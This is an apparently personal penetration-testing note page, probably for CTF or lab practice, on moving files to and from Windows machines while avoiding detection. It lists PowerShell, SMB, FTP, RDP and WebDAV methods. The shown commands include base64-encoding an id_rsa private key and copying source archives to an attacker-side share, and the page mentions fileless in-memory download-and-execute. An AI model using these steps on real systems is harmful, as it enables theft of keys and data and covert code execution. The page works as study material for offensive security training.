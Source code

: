 # Windows File Transfer

## Table of Contents
```table-of-contents
exclude: /Table of Contents/i
minLevel: 2
style: nestedList
hideWhenEmpty: true
```

## Overview

For transferring files to/from Windows machines.

## Key Concepts

To avoid detection, it's recommended to try to use Windows-native tools to transfer files as much as possible.

## Downloading

### Powershell

#### Method 1: Base64 Encoding

> [!warning] While this method is convenient, it's not always possible to use. Windows Command Line utility (cmd.exe) has a maximum string length of 8,191 characters. Also, a web shell may error if you attempt to send extremely large strings. 

**Step 1:** Check the MD5 hash of the contents.
```bash
md5sum id_rsa
```

**Step 2:** Encode contents to base64 and copy it to clipboard.
```bash
cat id_rsa | base64 -w 0; echo
```

**Step 3:** On the Windows machine, decode the contents in your clipboard to a file.
![[powershell#^decode-base64-to-file]]

**Step 4:** Confirm the MD5 hash matches
![[powershell#^get-file-md5-hash]]

#### Method 2:  DownloadFile

Download a file to a specified location.
![[powershell#^downloadfile-method]]

#### Method 3:  DownloadString - Fileless

Download and execute a remote file in memory - filelessly!
![[powershell#^downloadstring-method-fileless]]

#### Method 4: Invoke-WebRequest

> [!warning]  `Invoke-WebRequest` is noticeably slower at downloading files than `(New-Object Net.WebClient).DownloadFile`

Download a file to a specified location.
![[powershell#^outfile-invoke-webrequest]]

#### Method 5: WinRM

**Step 1:** Test the WinRM connection to the Windows machine
![[powershell#^test-winrm-connection]]

**Step 2:** Create a new session
![[powershell#^new-pssession]]

**Step 3:** Copy the file from the remote Windows machine to the local Windows machine.
![[powershell#^from-transfer-winrm]]

### SMB

#### Method 1: impacket-smbserver

**Step 1:** Create an SMB server on the Linux machine
![[impacket-smbserver#^create-authenticated-smb-server]]

**Step 2:** Mount the SMB server
```powershell
net use n: \\192.168.220.133\share /user:test test
```

**Step 3:** Copy the file from the share to the Windows machine
```powershell
copy n:\<file>
```

### FTP

#### Method 1: pyftpdlib

**Step 1:** Create an FTP server with Python on the Linux machine
![[python#^create-ftp-server]]

**Step 2:** Download the files to the Windows machine
![[powershell#^downloadfile-method]]

### RDP

#### Method 1: Mounting

**Step 1:** RDP to the Windows machine and mount a folder on the Linux machine
![[xfreerdp#^mount-linux-folder]]

**Step 2:** Transfer files over the network.
![[Pasted image 20250614110909.png]]

## Uploading

### Powershell

#### Method 1: Base64 Encoding + Copying

**Step 1:** Check the MD5 hash of the contents.
![[powershell#^decode-base64-to-file]]

**Step 2:** Encode contents to base64 and copy it to clipboard.
![[powershell#^encode-file-contents-to-base64]]

**Step 3:** On the Linux machine, decode the contents in your clipboard to a file.
```bash
echo "base64 content" | base64 -d > hosts
```

**Step 4:** Confirm the MD5 hash matches.
```bash
md5sum id_rsa
```

#### Method 2: Base64 Encoding + Uploading

**Step 1:** Encode the file content to Base64 and save it to a variable.
![[powershell#^b64-file-content-variable]]

**Step 2:** Open a netcat listener on the Linux machine.
![[netcat#^open-listener]]

**Step 3:** Send the Base64 encoded file contents to the listener
![[powershell#^send-b64-post]]

#### Method 3: WinRM

**Step 1:** Test the WinRM connection to the Windows machine
![[powershell#^test-winrm-connection]]

**Step 2:** Create a new session
![[powershell#^new-pssession]]

**Step 3:** Copy the file from local Windows machine to remote Windows machine.
![[powershell#^to-transfer-winrm]]


### FTP

#### Method 1: pyftpdlib

**Step 1:** Create an FTP server with write permissions on the Linux machine.
![[python#^write-create-ftp-server]]

**Step 2:** Upload a file from the Windows machine.
![[powershell#^uploadfile-method]]

### HTTP

#### Method 1: uploadserver

Set up a webserver with upload page
![[python#^uploadserver]]

#### Method 2: wsgidav

**Step 1:** Create a WebDav share on the Linux machine
![[python#^wsgidav-create-share]]

**Step 2:** Connect to the share on the Windows machine
```powershell
dir \\192.168.49.128\DavWWWRoot
```

**Step 3:** Upload files from the Windows machine
```powershell
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\www\
```

## File Encryption

**Step 1:** Download [Invoke-AESEncryption.ps1](https://www.powershellgallery.com/packages/DRTools/4.0.2.3/Content/Functions%5CInvoke-AESEncryption.ps1)

**Step 2:** Import Invoke-AESEncryption.ps1
```powershell
Import-Module .\Invoke-AESEncryption.ps1
```

**Step 3:** Encrypt a file
![[powershell#^aes-encyrpt-file]]

**Step 4:** Decrypt the file
![[powershell#^aes-decrypt-file]]

## LOLBAS

To search for download and upload functions in [LOLBAS](https://lolbas-project.github.io/) we can use `/download` or `/upload`.
![[Pasted image 20250614115122.png]]

## Related Techniques

- [[Similar-Technique]] - How they differ
- [[Follow-up-Technique]] - What comes next

## CTF Examples

```dataview
TABLE file.name as "Box", choice(contains(file.tags, "easy"), "🟢", choice(contains(file.tags, "medium"), "🟡", "🔴")) as "Diff"
FROM "06-CTF-Writeups" AND #windows-file-transfer
SORT file.ctime DESC
LIMIT 5
```

## Learning Resources

- 

#windows-file-transfer #technique